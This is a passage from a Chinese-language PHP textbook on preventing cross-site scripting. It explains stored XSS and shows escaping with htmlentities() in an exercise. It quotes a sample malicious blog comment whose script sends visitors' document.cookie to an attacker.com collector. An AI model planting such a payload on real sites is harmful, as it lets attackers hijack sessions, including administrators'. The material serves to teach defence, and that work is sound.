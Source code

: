 ![图 6.28：特殊字符及其替换](img/C14196_06_28.jpg)

图 6.28：特殊字符及其替换

现在，让我们考虑一个存储型 XSS 样本的例子。正如其名所示，存储型 XSS 是一段存储在服务器或浏览器上的恶意软件。我将讨论存储在服务器上的那种，但在浏览器的情况下，它类似（只是不是用 PHP 实现的）。

好的，那么一个 XSS 恶意软件片段是如何存储在服务器上的呢？嗯，很简单：这可以通过应用存储的每个用户输入来完成（通常存储在数据库中）。想想博客帖子的评论、产品的评论、头像的 URL、用户的网站 URL 以及其他例子。在这些情况下，为了渲染安全的 HTML，答案是相同的；也就是说，使用`htmlentities()`。

假设数据库中有一个博客帖子的评论，内容如下：

```php
Great blog post! <script>document.write('<img src="img/collect.gif?cookie=' + encodeURIComponent(document.cookie)+'" />');
</script>
```

在这种情况下，攻击者注入一个脚本标签，通过添加远程图片（通常是一个像素；你甚至无法在页面上看到它）在客户端执行 DOM 写入。远程图片由攻击者的服务器托管，在提供像素图片之前，它将首先收集请求查询字符串中传递的所有数据——在这个例子中，是`document.cookie`。这意味着攻击者将收集来自网站所有访问者的有效会话 ID；也就是说，匿名访客、已登录用户，甚至是管理员。

如果不进行转义，前面的评论将被浏览器渲染为`Great blog post!`，没有任何提示表明可能有一些奇怪的脚本正在执行。

转义后的版本将作为评论的原始内容渲染，因为现在 HTML 将包含实体而不是特殊字符：

```php
Great blogpost! &lt;script&gt;document.write('&lt;img src=&quot;https://attacker.com/collect.gif?cookie=' + encodeURIComponent(document.cookie)+'&quot; /&gt;');&lt;/script&gt;
```

注意

你可以在[`packt.live/2MRX3jJ`](https://packt.live/2MRX3jJ)了解更多关于 XSS 的信息。

## 练习 6.8：防止 XSS 攻击

在这个练习中，你将构建一个针对用户输入进行保护的脚本。假设你需要在现有的网站上开发一个搜索功能。你被要求将搜索值打印回页面，并保持当前搜索词在搜索输入字段中。当然，脚本应该对用户输入进行保护。

1.  创建一个名为`output-escape-reflected.php`的文件，内容如下：

    ```php
    <?php
    declare(strict_types=1);
    if (isset($_GET['s'])) {
        echo sprintf('<p>You have searched for: <strong>%s</strong>      </p>', htmlentities($_GET['s']));
    } else {
        echo "Use the form to start searching.";
    }
    ?>
    ```
